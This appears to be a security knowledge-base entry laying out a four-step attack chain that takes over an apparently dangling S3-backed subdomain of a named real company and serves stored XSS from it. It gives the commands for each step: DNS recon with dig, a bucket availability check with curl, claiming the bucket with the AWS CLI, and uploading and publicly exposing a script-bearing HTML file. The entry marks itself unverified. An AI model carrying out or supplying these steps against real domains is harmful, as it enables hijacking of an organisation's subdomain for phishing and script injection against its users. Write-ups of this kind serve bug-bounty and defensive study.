

---
id: ac-uuid-001
name: Subdomain Takeover on AWS S3 Leading to Stored XSS via Unregistered Bucket
type: attack_chain
description: "Multi-stage attack exploiting a dangling CNAME DNS record pointing to an unregistered AWS S3 bucket, allowing takeover and upload of malicious content for stored XSS or phishing."
verified: false
submitted: false
step_count: 4
created_at: 2023-10-01T00:00:00Z
updated_at: 2023-10-01T00:00:00Z
procedures: [[procedures/Discover-DNS-Configuration-for-Subdomain-Takeover]], [[procedures/Verify-S3-Bucket-Availability]], [[procedures/Claim-Unregistered-S3-Bucket]], [[procedures/Upload-Malicious-Content-to-S3-for-XSS-PoC]]
techniques: [[Gather Victim Host Information]], [[Exploit Public-Facing Application]], [[Drive-by Compromise]]
tactics: [[Reconnaissance]], [[Initial Access]]
tags: subdomain-takeover, aws-s3, xss, dns
platforms: Web, AWS
tools: [[tools/dig]], [[tools/aws-cli]]
---

# Subdomain Takeover on AWS S3 Leading to Stored XSS via Unregistered Bucket

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~30 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/dig]]
- [[tools/aws-cli]]

### Target Environment

- Web platform with DNS records
- AWS S3 services
- No specific ports required; DNS queries over port 53

### Initial Access Requirements

- Public DNS resolution access
- AWS account (free tier sufficient)
- No prior credentials on target

## Detailed Attack Procedures

### Step 1: Discover DNS Configuration
procedure: [[procedures/Discover-DNS-Configuration-for-Subdomain-Takeover]]

**Objective**: Identify misconfigured DNS records pointing to claimable cloud resources.

**Instructions**: Perform a DNS lookup on the target subdomain to reveal CNAME chains leading to cloud endpoints.

Use [[commands/dig-lookup]] to query the DNS:

```bash
dig s3.shopify.com +short
```

Follow up with a full trace to see the CNAME chain:

```bash
dig s3.shopify.com +trace
```

**Expected Output**: CNAME records showing s3.shopify.com -> shopify-assets.s3.amazonaws.com -> s3-directional-w.amazonaws.com -> s3-1-w.amazonaws.com -> A 52.216.80.56.

**Success Indicators**:
- CNAME points to an AWS S3 endpoint
- Endpoint suggests an unregistered bucket name

### Step 2: Verify Bucket Availability
procedure: [[procedures/Verify-S3-Bucket-Availability]]

**Objective**: Confirm the S3 bucket is unregistered and claimable.

**Instructions**: Check AWS S3 for the bucket existence without authentication.

Attempt to access the bucket URL directly in a browser or via curl:

```bash
curl https://shopify-assets.s3.amazonaws.com
```

If it returns "NoSuchBucket", the bucket is available.

**Expected Output**: Error message indicating the bucket does not exist.

**Success Indicators**:
- Bucket returns access denied or not found
- No content served from the endpoint

### Step 3: Claim the Bucket
procedure: [[procedures/Claim-Unregistered-S3-Bucket]]

**Objective**: Register the dangling S3 bucket in your AWS account to gain control.

**Instructions**: Use AWS CLI to create the bucket with the identified name.

First, configure AWS CLI with your credentials:

```bash
aws configure
```

Then create the bucket:

```bash
aws s3 mb s3://shopify-assets --region us-east-1
```

**Expected Output**: Bucket created successfully message.

**Success Indicators**:
- Bucket creation succeeds
- Accessing s3.shopify.com now resolves to your content

### Step 4: Demonstrate Impact with Upload
procedure: [[procedures/Upload-Malicious-Content-to-S3-for-XSS-PoC]]

**Objective**: Upload arbitrary content to showcase takeover impact like stored XSS.

**Instructions**: Upload an HTML file containing JavaScript for XSS proof.

Create a simple PoC HTML file:

```bash
echo '<html><body><script>alert("XSS via Subdomain Takeover")</script></body></html>' > xss.html
```

Upload it to the bucket:

```bash
aws s3 cp xss.html s3://shopify-assets/xss_unguessable3211231232.html
```

Set public read access if needed:

```bash
aws s3api put-object-acl --bucket shopify-assets --key xss_unguessable3211231232.html --acl public-read
```

**Expected Output**: File uploaded; accessible via https://s3.shopify.com/xss_unguessable3211231232.html.

**Success Indicators**:
- Malicious HTML serves from the subdomain
- Alert or script executes in browser

## Attack Chain Summary

### Key Achievements

1. Identified and exploited dangling DNS CNAME for S3 takeover
2. Claimed control over shopify-assets bucket
3. Demonstrated potential for stored XSS and phishing
4. Highlighted risks of unused cloud configurations

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Gather Victim Host Information]] Gather Victim Host Information
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Drive-by Compromise]] Drive-by Compromise

### MITRE ATT&CK Tactics

- [[Reconnaissance]] Reconnaissance
- [[Initial Access]] Initial Access

---
*Last updated: 2023-10-01T00:00:00Z*
